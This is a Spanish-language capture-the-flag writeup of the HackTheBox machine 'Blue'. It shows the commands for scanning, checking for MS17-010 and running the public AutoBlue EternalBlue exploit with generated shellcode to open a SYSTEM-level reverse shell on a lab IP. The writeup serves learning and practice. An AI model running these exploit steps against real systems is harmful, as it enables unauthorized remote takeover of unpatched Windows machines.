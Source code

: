 ```yaml
---
layout: single
title: Writeup HTB - Maquina Blue
comments: true
excerpt: "La maquina Blue es una masquina windows - Easy, encontramos una maquina con una vulnerabilidad muy conocida el popular ms17-010, para explotar dicha vulnerabilidad haremos uso de un exploit del repositorio AutoBlue, ejecutando dicho exploit podemos ejecutar comandos en el servidor como nt authority system."
date: 2022-02-03
classes: wide
header:
  teaser: /assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Windows
  - Easy
  - ms17-010
  - Windows 7 Professional 7601 Service Pack 1
  - AutoBlue
  - eternal_checker
  - shell_prep
  - msfvenom
  - eternalblue_exploit7

---
```


# Blue

<p align="center">
<img src="/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled.png">
</p>

## Resumen

<div style="text-align: justify">
La maquina Blue es una masquina windows - Easy, encontramos una maquina con una vulnerabilidad muy conocida el popular ms17-010, para explotar dicha vulnerabilidad haremos uso de un exploit del repositorio AutoBlue, ejecutando dicho exploit podemos ejecutar comandos en el servidor como nt authority system.
</div>

## Scan Nmap

Hacemos un escaneo simple a nuestra maquina

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%201.png)

podemos ver que es un **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**  y entonces tambien notamos que tenemos el puerto 445. Partiendo de esto lo primero que podriamos probar son los scripts de nmap para ver si esta maquina tiene una vulnerabilidad conocida. Asi pues vemos que nmap nos arroja que existe un vulnerabilidad con CVE-2017-0143, que es el popular ms17-010

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%202.png)

para explotar dicha vulnerabilidad, buscamos un exploit del siguiente repositorio

[GitHub - 3ndG4me/AutoBlue-MS17-010: This is just an semi-automated fully working, no-bs, non-metasploit version of the public exploit code for MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

descargamos el repositorio e instalamos todo lo nesecario para hacerlo funcionar de la siguiente manera

```bash
Blue # ❯ git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
Blue # ❯ cd AutoBlue-MS17-010
AutoBlue-MS17-010 # ❯ pip install -r requirements.txt
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%203.png)

podemos usar el checker para ver si la maquina victima se encuentra parchado o no dicha vulnerabilidad

```bash
AutoBlue-MS17-010 # ❯ python eternal_checker.py 10.129.161.33
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%204.png)

el siguiente paso se generar unas shellcode de la siguiente manera

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%205.png)

al generar ingresamos nuestra direccion IP y los puertos que elegiremos para se conecten a una reverse shell

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%206.png)

a veces la herramienta no genera el sc_all.bin, asi que toca probar con sc_x86.bin y sc_x64.bin, asi de esta manera obtenemos una reverse shell con permisos de nt authority\system

```bash
Blue # ❯ python3 eternalblue_exploit7.py 10.129.161.39 shellcode/sc_x64.bin
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%207.png)

gracias por tomarte el tiempo de leer este writeup, nos vemos AbelJM.